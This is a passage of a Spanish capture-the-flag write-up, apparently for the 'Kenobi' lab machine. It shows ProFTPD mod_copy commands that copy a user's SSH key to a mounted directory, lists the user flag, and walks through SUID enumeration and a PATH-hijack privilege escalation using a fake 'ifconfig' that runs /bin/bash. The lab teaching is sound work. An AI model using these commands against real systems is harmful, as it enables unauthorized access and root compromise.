 ~~~console
site cpfr /home/kenobi
350 File or directory exists, ready for destination name
site cpto /var/tmp
250 Copy successful
~~~

Accediendo entonces al directorio montado, se puede obtener la clave privada SSH para acceder mediante dicho protocolo a la máquina.

![](https://i.imgur.com/E6JWX3S.png)

Se consigue la flag del usuario (**d0b0f3f53b6caa532a83915e19224899**)


## Escalada de privilegios. ## 

Una vez dentro de la máquina, se debe enumerar una posible escalada de privilegios, empezando por la bñusqueda de ficheros ejecutables con permisos SUID.

~~~console
find / -perm -u=s -type f 2>/dev/null
~~~  

Se encuentran varios, pero entre ellos, uno que no suele darse habitualmente, el que tiene la ruta ```/var/bin/menu```.

![](https://i.imgur.com/xHQEB1C.png)

Se buscan cadenas de texto en el fichero, mediante el comando ```strings``` , viendo que se lanza el comando ```ifconfig``` sin indicar la ruta completa, lo que hace que se pueda explotar mediante la variable $PATH.

![](https://i.imgur.com/inGLB1J.png)

Por tanto, desde el directorio actual (con permisos de escritura, por eso en este caso se hace en ```/tmp```) se crea un fichero llamado **ifconfig** que contiene la llamada a una shell.

~~~console
echo /bin/bash > ifconfig
~~~

Se le dan permisos de ejecución.

~~~console
chmod u+x ifconfig
~~~

Por último, se añade la ruta actual en la variable $PATH, en primer lugar, puesto que cuando se ejecuta un comando, éste, verifica la variable y busca el nombre del ejecutable en las rutas definidas, en el orden indicado.

~~~console
PATH=/tmp:$PATH
~~~

Quedando así.

~~~console
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
~~~
